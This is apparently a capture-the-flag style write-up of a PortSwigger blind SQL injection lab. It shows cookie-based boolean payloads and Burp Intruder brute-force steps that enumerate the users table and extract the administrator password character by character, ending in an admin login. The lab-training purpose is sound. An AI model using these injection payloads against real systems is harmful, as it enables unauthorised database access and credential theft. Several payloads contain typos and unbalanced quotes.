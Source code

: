 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2277a84-8741-4b90-b15e-d88ad9c9eda9)


## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f499d35-6e1f-418e-8a34-f8b18889ea14)

*This how the session looks like where ```TrackingId and COOKIE-VALUE``` are shown and  Welcome back message is also displyed.*


TrackingID parameter is vulnerable. So it is vulnerablecan to blind SQL injection on trackingID parameter.

```If the Condition is true it will display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fe425f15-d397-46a0-a068-7bcbdc6b4de8)

```If the Condition is not true it will not  display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8490db5d-55ae-4aaa-8924-0aee2f53704e)

#### Check Whether the users table is present  -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users LIMIT 1) = 'Ananthan' --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1c3a0a67-73de-444c-b0bb-ad5af810eb62)

It display the Welcome back message. So ```user``` table is present.


#### Check Whether the username administrator is present in users table -

```Here table name is users```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator')='Ananthan
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88dbcb08-b121-47a8-8b20-cad203b083d4)

It display the Welcome back message. So username ```administrator```  is present in the user table.

#### Check the length password of administrator-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator' AND LENGTH(password)>15))='Ananthan
```
 
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6db47b3e-85b7-413e-aaf1-8ce6dc413045)

```Here 15 indicates the length of the password and it returns the response as true means the length of the password is greater than 15 as it display the Welcome back message.```

```Then changed the length from 15 to 25 ```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2bd8908-a70e-425e-87bd-efde7e4d2bbe)

 ```It returns the response as false means the length of the password is less than 25 as it didn't display the Welcome back message.So the password length must be in between 15-25.```

```To find the length of the password send qury to  Intruder then and Add the password length part [> 15] and select attack type as SNIPER```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0cb97d88-5d96-4803-a9d6-8a7c6f3c2345)

```Then go to  payload sleect payload type as numbers after that set from 15 to 25.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d3b3e562-81b9-449c-97e6-d3d64aa52be2)

```Then go to Grep-Match in setting and type Welcome back and start attack.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e55351a5-0c64-4f7a-8270-008268938e20)
 
```After brute-force we understood that 20 is length of the password because while checking if length(password) > 20 it FAILS it didn't display the Welcome back message.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1eb1d632-3ab2-4d73-b790-7c106fe6aadd)

#### Fining the  20 character length password by Brute force -


```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' )='Ananthan--
```
we will able get the first character of the password that is  ```u```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ca75666a-da6e-4522-a2bc-d8ab76615131)

```To get all character of the password togther we need to set the attack type as cluter bomb and set to payloads one is for the postion of the chractor and other one normal string payload and select 1st payload set as number[range 1-20] to detemine the postion of the character and other payload as bruteforce [min & max length = 1] to determine the character . And then go to Grep-Match in setting and type Welcome back and start attack.```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator' )='$Ananthan$'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3c5afa8f-6b01-4cf9-95b5-b734ab02728b)

Now, we have received 20 different payloads that provide us with the 'Welcome back' option

![Screenshot 2024-02-04 153346](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bae24401-2cb9-48dd-8acc-5ffa58ba0e55)

Araange the payload2 characters according to the payload1 numbers in the correct order .

Password  = `uc5e5ot47gtajjumawrg`

Successfully logged in administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/eb508fb6-0848-4c78-aeb2-a64df691d8e6)


